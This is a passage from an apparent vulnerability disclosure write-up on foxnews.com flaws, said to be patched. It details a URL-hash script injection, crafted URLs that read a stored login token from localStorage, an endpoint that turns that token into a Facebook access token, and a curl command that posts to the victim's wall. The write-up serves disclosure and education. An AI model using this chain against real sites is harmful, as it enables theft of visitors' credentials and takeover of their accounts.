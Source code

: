 # foxnews.com vulnerabilities

* [#1: Accessing visitors’ facebook profiles](#1-accessing-visitors-facebook-profiles)
* [#2: Posting comments on behalf of users](#2-posting-comments-on-behalf-of-users)
* [#3: Changing your profile picture](#3-changing-your-profile-picture)

This is a series of three articles detailing vulnerabilities in foxnews.com that are patched up now. Before patching they would’ve given attackers full access to visitors’ facebook accounts, posting comments on their behalf, and (worst of all) changed your profile picture.

I notified foxnews of each when it was discovered but never heard back.

These are posted for educational purposes.

## #1: Accessing visitors’ facebook profiles

A lot of websites have JS injection vulnerabilities and will run code embedded in URLs. This means if the website stores your data in cookies or *localStorage* thinking only you can access it, now this code can access it.

For example, [foxnews.com](http://foxnews.com) has a[ page](http://foxnews.com/static/v/all/html/xdcomm.html) that evaluates part of URL hash without sanitizing it. So, the following URL shows an alert saying “hi”:

[http://www.foxnews.com/static/v/all/html/xdcomm.html#top;**alert(‘hi’)**:](http://www.foxnews.com/static/v/all/html/xdcomm.html#top;alert%28%27hi%27%29:)

This example shows how, if you link your foxnews.com account to Facebook, you could post on your wall using credentials foxnews.com stores in your browser. Steps 1–3 could all be done in code embedded in the first URL.

1. Grab your ***token*** stored in *localStorage:*

[http://www.foxnews.com/static/v/all/html/xdcomm.html#top;**alert(localStorage.janrainCaptureToken)**:](http://www.foxnews.com/static/v/all/html/xdcomm.html#top;alert%28localStorage.janrainCaptureToken%29:)

If you’re logged into foxnews.com you will see some series of letters and numbers — your ***token***, otherwise you’ll see *undefined*.

2. Find your facebook credentials using this ***token*** without logging in — i.e. try incognito mode:

[https://signin.foxnews.com/entity?type_name=user&access_token=***token***](https://signin.foxnews.com/entity?type_name=user&access_token=janrainCaptureToken)

This will return a blob of JSON, in particular it has your Facebook ***uid*** and API ***accessToken.***

3. Use these credentials to post a message on your Facebook wall, e.g.

    $ curl — data ‘access_token=accessToken' https://graph.facebook.com/uid/feed?message=YourMessage

** I informed foxnews.com of this; they didn’t respond after multiple days.

## #2: Posting comments on behalf of users
